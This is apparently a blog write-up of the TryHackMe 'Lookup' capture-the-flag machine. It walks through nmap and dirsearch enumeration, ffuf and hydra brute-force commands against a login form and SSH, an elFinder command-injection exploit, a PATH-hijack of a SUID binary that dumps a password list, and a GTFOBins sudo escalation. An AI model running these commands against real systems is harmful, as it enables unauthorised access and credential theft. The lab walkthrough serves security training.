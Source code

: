 ```yaml
---
layout: post
title: Lookup (TryHackMe)
date: 2025-05-20
categories: [CTF, TryHackme]
tags: [login bruteforce, GTFObins, Look]
---
```


## Nmap Result

```nmap
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 60 OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 44:5f:26:67:4b:4a:91:9b:59:7a:95:59:c8:4c:2e:04 (RSA)

80/tcp open  http    syn-ack ttl 60 Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Login Page
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
```

# Enumeration

## HTTP(80)

### Dirsearch


```
dirsearch -h http://lookup.thm

[14:33:07] 403 -  275B  - /.php                                             
[14:33:59] 200 -    1B  - /login.php                                        
[14:34:16] 403 -  275B  - /server-status                                    
[14:34:16] 403 -  275B  - /server-status/

```

## Website Features
- Login page

#### After we bruteforce we can find the password

```ffuf
ffuf -w /usr/share/wordlists/seclists/Passwords/2023-200_most_used_passwords.txt -X POST -u http://lookup.thm/login.php -d 'username=admin&password=FUZZ' -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8"  -fw 8 
```
![[Pasted image 20250207175024.png]]
![ffuf password ](https://c00lrabbit.github.io/assets/Images/Lookup/fuff-password.png)

But this password doesn't login
so i enumerated the username
```ffuf
 ffuf -w /usr/share/wordlists/seclists/Usernames/xato-net-10-million-username.txt -X POST -u http://lookup.thm/login.php -d 'username=FUZZ&password=password123' -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8"  -fw 8 
```
![[Pasted image 20250207175736.png]]
![ffuf uname](https://c00lrabbit.github.io/assets/Images/Lookup/fuff-uname.png)

- After we login with the correct credentials we get into `files.lookup.thm` vhost.
- There is a service running on this vhost named "elFinder".

![elfinder dashboard](https://c00lrabbit.github.io/assets/Images/Lookup/elfinder-hpage.png)

- Found the version of the elFinder

![elfinder version info](https://c00lrabbit.github.io/assets/Images/Lookup/elfinder-info.png)

# Exploitation

- This version is vulnerable to php command injection which leads to RCE.
- exploit-https://www.exploit-db.com/exploits/46481

![exploit](https://c00lrabbit.github.io/assets/Images/Lookup/exploit-shell.png)

We can upgrade this into interactive shell using Reverse shell.com
![[Pasted image 20250207185928.png]]

- After running linpeas we found a SUID
![[Pasted image 20250207191615.png]]

```
echo '#!/bin/bash' > id
echo 'echo "uid=1000(think) gid=1000(think) groups=1000(think)"' >> id
chmod +x id
/usr/sbin/pwm
```

- after running the above line we get this password
```password.txt
jose1006
jose1004
jose1002
jose1001teles
jose100190
jose10001
jose10.asd
jose10+
jose0_07
jose0990
jose0986$
jose098130443
jose0981
jose0924
jose0923
jose0921
thepassword
jose(1993)
jose'sbabygurl
jose&vane
jose&takie
jose&samantha
jose&pam
jose&jlo
jose&jessica
jose&jessi
josemario.AKA(think)
jose.medina.
jose.mar
jose.luis.24.oct
jose.line
jose.leonardo100
jose.leas.30
jose.ivan
jose.i22
jose.hm
jose.hater
jose.fa
jose.f
jose.dont
jose.d
jose.com}
jose.com
jose.chepe_06
jose.a91
jose.a
jose.96.
jose.9298
jose.2856171

```

- Using hydra we can bruteforce the login
```hydra
hydra -l think -P password.txt ssh://lookup.thm -t 40 -v
```
![[Pasted image 20250207193607.png]]

# Post Compromise 

- After running sudo -l we found that we have access to look with sudo
- After search in GTFO bins [Click Here](https://gtfobins.github.io/gtfobins/look/#sudo) we found a bypass
![[Pasted image 20250207194339.png]]